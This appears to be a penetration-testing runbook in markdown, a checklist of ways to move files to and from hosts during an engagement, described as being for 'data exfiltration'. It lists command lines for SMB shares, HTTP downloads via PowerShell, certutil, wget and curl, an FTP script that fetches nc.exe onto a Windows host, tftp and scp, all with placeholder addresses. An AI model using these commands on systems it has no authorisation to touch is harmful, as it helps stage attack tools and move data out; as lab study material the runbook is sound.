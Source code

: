 # File Transfer Checklist
<!--- Status Complete --->

## Introduction

This runbook is to help with file transfering or data exfiltration. Transfering data to and from hosts is important.  This is a guide to walk through various methods.

## Table of Contents

- [File Transfer Checklist](#file-transfer-checklist)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [SMB Server](#smb-server)
  - [HTTP](#http)
    - [Server](#server)
    - [Client](#client)
  - [Pure-FTPd](#pure-ftpd)
  - [tftp](#tftp)
  - [scp](#scp)

## SMB Server

```sh
# kali
impacket-smbserver share . -smb2support -user user -password test123
```
```cmd
# windows
net use z: \\<smbserver>\share /USER:user test123
copy z:\ .
```

## HTTP

### Server

```sh
python -m SimpleHTTPServer <port>
```

```sh
service apache2 start
```

### Client

Windows
``` cmd
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<ip>:<port>/<file.exe>','C:\temp\<file.exe>')"
iwr -uri http://<ip>/<file> -Outfile c:\temp\<file>
wget http://<ip>/<file> -O <file>
curl http://<ip>/<file> -o <file>
certutil -urlcache -f http://<ip>:<port>/<file> <file>  
```

Linux
```sh
wget http://<ip>/<file>
curl http://<ip>/<file> > <file>
```

## Pure-FTPd

```sh
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

Transfer
```
echo open <IP> 21> ftp.txt
echo USER <user> >> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```
```
ftp -v -n -s:ftp.txt
```

## tftp


Config
```
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```
Transfer
```
tftp -i <ip> get file
```

## scp

Local File to a Remote System
```sh 
scp file <user>@192.168.0.20:/home/<directory>/
```
Remote File to a Local System
```sh 
scp <user>@192.168.0.20:/home/<directory>/ file
```

 <!--- Last Updated July 8, 2024 --->